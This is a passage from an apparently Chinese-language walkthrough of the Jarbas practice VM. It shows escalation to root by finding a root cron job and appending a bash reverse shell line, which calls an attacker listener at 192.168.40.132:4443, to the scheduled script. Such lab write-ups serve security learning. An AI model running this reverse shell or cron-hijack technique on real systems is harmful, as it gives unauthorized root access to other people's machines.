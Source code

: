 反弹shell成功

![image-20240330094600797](PictureFile/【靶场】jarbas.assets/image-20240330094600797.png)

sudo -l发现没有什么权限，cat /etc/cron* 看看计划任务

![image-20240330150655164](PictureFile/【靶场】jarbas.assets/image-20240330150655164.png)

发现每五分钟就会以root执行某个任务，给文件中追加反弹shell命令，kali新开一个4443端口接收

```shell
echo "bash -i >& /dev/tcp/192.168.40.132/4443 0>&1" >> /etc/script/CleaningScript.sh
```

等待一会儿：成功getshell
